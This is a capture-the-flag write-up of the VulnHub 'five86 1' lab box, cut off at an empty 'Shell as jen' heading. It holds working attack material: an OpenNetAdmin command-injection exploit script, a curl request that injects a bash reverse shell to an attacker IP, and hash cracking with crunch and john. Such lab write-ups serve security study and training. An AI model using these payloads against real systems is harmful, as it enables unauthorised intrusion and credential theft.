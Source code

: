 ```yaml
---
title: Vulnhub - five86 1
description: My writeup on five86 1 box.
categories:
 - vulnhub
tags: vulnhub opennetadmin searchsploit curl .htpasswd crunch
---
```


![](https://i.imgur.com/E1SIkqH.png)

## Box Stats

| Box Info      | Details       | 
| ------------- |:-------------:| 
| Box Name :    | **five86 1**  | 
| Series :      | **five86**         |
| Difficulty :  | **Easy/Medium**             |   
| Release Date :| **8 Jan 2020**      |    
| OS :          | **GNU/Linux**        |   
| Maker :       | [DCAU](https://twitter.com/DCAU7){:target="_blank"}     | 
| Download :    | [five86 1](https://www.vulnhub.com/entry/five86-1,417/){:target="_blank"}      | 

## Summary

Recently i was busy, i didn't have the time to make writeups. Luckily now im able to make writeups again, let's begin with some (g)old series! I also did an update on my writeup style, hope you like it.  Let's pwn it! :sunglasses:

## PoC 



## Target IP

Always first step is to find target IP address, i prefer to use the `arp-scan` utility. Then we'll save the IP address in a variable. 

```
$ arp-scan --localnet | grep "VMware"
192.168.1.14	00:0c:29:11:aa:bc	VMware, Inc.
$ ip=192.168.1.14
```

## Enumeration/Reconnaissance

Now as always let's continue with a nmap scan.

```
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-12 19:20 EET
Nmap scan report for five86-1.zte.com.cn (192.168.1.14)
Host is up (0.00067s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
10000/tcp open  snet-sensor-mgmt
MAC Address: 00:0C:29:11:AA:BC (VMware)

$ nmap -p 22,80,10000 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-12 19:21 EET
Nmap scan report for five86-1.zte.com.cn (192.168.1.14)
Host is up (0.00046s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 69:e6:3c:bf:72:f7:a0:00:f9:d9:f4:1d:68:e2:3c:bd (RSA)
|   256 45:9e:c7:1e:9f:5b:d3:ce:fc:17:56:f2:f6:42:ab:dc (ECDSA)
|_  256 ae:0a:9e:92:64:5f:86:20:c4:11:44:e0:58:32:e5:05 (ED25519)
80/tcp    open  http    Apache httpd 2.4.38 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/ona
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
10000/tcp open  http    MiniServ 1.920 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```

Let's focus on port 80, once we visit the website we can see nothing a blank page. We'll continue with a `gobuster` scan.

```
$ gobuster dir -q -u http://$ip/ -w $medium -x php,txt,html,js -o scans/gobuster80.txt
/index.html (Status: 200)
/reports (Status: 401)
/robots.txt (Status: 200)
```

`/reports` asks for credentials:

![](https://i.imgur.com/8anh4zA.png)

`/robots.txt` has an interesting directory:

```
$ curl http://$ip/robots.txt
User-agent: *
Disallow: /ona
```

## Shell as www-data

Once we visit `/ona` we can see [OpenNetAdmin](https://opennetadmin.com/){:target="_blank"} installation. OpenNetAdmin is a system for tracking IP network attributes in a database. Our next step is to search for possible exploits, let's fire up `searchsploit`.

```
$ searchsploit opennetadmin
-----------------------------------------------------------------------------------------------------------
 Exploit Title                                                                    |  Path
-----------------------------------------------------------------------------------------------------------
OpenNetAdmin 13.03.01 - Remote Code Execution                                     | php/webapps/26682.txt
OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit)                      | php/webapps/47772.rb
OpenNetAdmin 18.1.1 - Remote Code Execution                                       | php/webapps/47691.sh
-----------------------------------------------------------------------------------------------------------
```

The `.sh` one looks perfect! Let's mirror it.

```
$ searchsploit -m php/webapps/47691.sh                                                                                                                                          
  Exploit: OpenNetAdmin 18.1.1 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/47691
     Path: /usr/share/exploitdb/exploits/php/webapps/47691.sh
File Type: ASCII text, with CRLF line terminators

Copied to: /root/Documents/vulnhub/five86_1/47691.sh
```

```bash
#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

A really simple exploit, if we try to run it we'll get lot of errors.

```
$ bash 47691.sh http://$ip/ona/
47691.sh: line 8: $'\r': command not found
47691.sh: line 16: $'\r': command not found
47691.sh: line 18: $'\r': command not found
47691.sh: line 23: syntax error near unexpected token `done'
47691.sh: line 23: `done'
```

Here we need a little trick. `dos2unix` modifies newline characters so they can be Linux compatible.

```
$ dos2unix 47691.sh                                                                                                                                                                
dos2unix: converting file 47691.sh to Unix format...
$ bash 47691.sh http://$ip/ona/     
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We got RCE cool, useless shell. Let's run the `curl` command manually and edit it a bit. We will inject our reverse shell in it. 

The reverse shell we'll use:

```
bash -c 'bash -i >& /dev/tcp/$your_ip/5555 0>&1
```

Our finally command will be this:

```
$ curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.16%2F5555%200%3E%261%27&xajaxargs[]=ping" http://$ip/ona/
```

```
$ nc -lvp 5555 
listening on [any] 5555 ...

www-data@five86-1:/opt/ona/www$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@five86-1:/opt/ona/www$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@five86-1:/opt/ona/www$ 
```

## Shell as douglas

Under `/opt/ona/www` i noticed the `.htaccess.example` fil, this remind me the `.htpasswd` file. Let's search for it.

```
www-data@five86-1:/opt/ona/www$ ls -la
total 72
drwxr-xr-x 10 root root 4096 Dec 31  2019 .
drwxr-xr-x  9 root root 4096 Dec 31  2019 ..
-rw-r--r--  1 root root 1970 Dec 31  2019 .htaccess.example
```

```
www-data@five86-1:/opt/ona/www$ find / -type f -name .htpasswd 2>/dev/null
/var/www/.htpasswd
```

```
douglas:$apr1$9fgG/hiM$BtsL9qpNHUlylaLxk81qY1

# To make things slightly less painful (a standard dictionary will likely fail),
# use the following character set for this 10 character password: aefhrt 
```

We need to create a custom wordlist, of course will use `crunch`. I crafted the following command:

```
$ crunch 10 10 aefhrt -o wordlist.txt                                                                                                                                            
Crunch will now generate the following amount of data: 665127936 bytes
634 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 60466176 
```

Around 635MB:

```
$ du -sh wordlist.txt 
635M	wordlist.txt
```

Let's fire up `john` on it now.

```
$ john --wordlist=wordlist.txt password.txt
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
fatherrrrr       (douglas)
```

We can use SSH now to connect as `douglas:fatherrrrr`.

```
$ ssh douglas@$ip
douglas@192.168.1.14's password: 

douglas@five86-1:~$ whoami;id
douglas
uid=1005(douglas) gid=1005(douglas) groups=1005(douglas)
```

## Shell as jen



